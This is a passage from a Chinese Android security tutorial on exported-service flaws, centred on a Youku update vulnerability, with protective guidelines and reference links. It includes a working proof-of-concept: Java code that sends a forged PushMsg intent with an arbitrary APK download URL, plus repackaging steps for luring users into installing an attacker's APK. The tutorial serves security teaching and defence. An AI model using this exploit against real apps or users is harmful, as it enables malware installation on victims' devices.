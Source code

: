 ```java
        intent.putExtra("updateversion", pushMsg.updateversion);
        intent.putExtra("updatecontent", pushMsg.updatecontent);
        intent.putExtra("updateType", 2);
        this.startActivity(intent);
        return;
    ......
```

该组件从Intent从获取名为PushMsg的Serializable的数据，并根据其成员type来执行不同的流程，当type值为1时，执行App的升级操作。升级所需的相关数据如app的下载地址等也是从该序列化数据中获取。升级的具体流程在com.youku.ui.activity.UpdateActivity中，简单分析后发现升级过程**未对下载地址等进行判断**，因此可以**任意指定**该地址。

攻击代码：

该漏洞触发的关键在于对PushMsg数据的控制，创建一个Android App程序，在主Activity中的关键代码如下：

```java
PushMsg pushMsg = new PushMsg();
pushMsg.type = 1;
pushMsg.updateurl = "http://任意URL/test.apk";
pushMsg.updatecontent = "This is Fake";
		
Intent intent = new Intent();
intent.setClassName("com.youku.phone","com.youku.service.push.StartActivityService");
intent.putExtra("PushMsg", pushMsg);
startService(intent);
```

其中PushMsg类不需要完整实现，只需要编译通过即可；
反编译优酷客户端的App得到smali代码，从中提取出PushMsg.smali；
反编译上述创建的APK文件，将原PushMsg类的smali文件替换为优酷中的PushMsg.smali文件，重新打包签名；
安装并运行重打包后的APK，会看到优酷的升级页面触发，如果设计的好的话，是可以诱导用户安装攻击者指定的APK文件的。

### Service拒绝服务

service未对接收的intent中的数据进行异常处理，导致程序崩溃。

### 防护原理

- 私有service不定义intent-filter并且设置exported为false
- 合作service需对合作方的app签名做校验
- 只被应用本身使用的service应设置为私有
- 不应在service创建（onCreate方法被调用）的时候决定是否提供服务，应在onStartCommand/onBind/onHandleIntent等方法被调用时做判断
- 内部service需要使用签名级别的protectionLevel来判断是否被内部应用调用
- service接收的数据需要谨慎处理

其他参考链接：

https://tea9.xyz/post/3182197634.html

https://ayesawyer.github.io/2019/08/21/Android-App%E5%B8%B8%E8%A7%81%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E/

## CTF实例
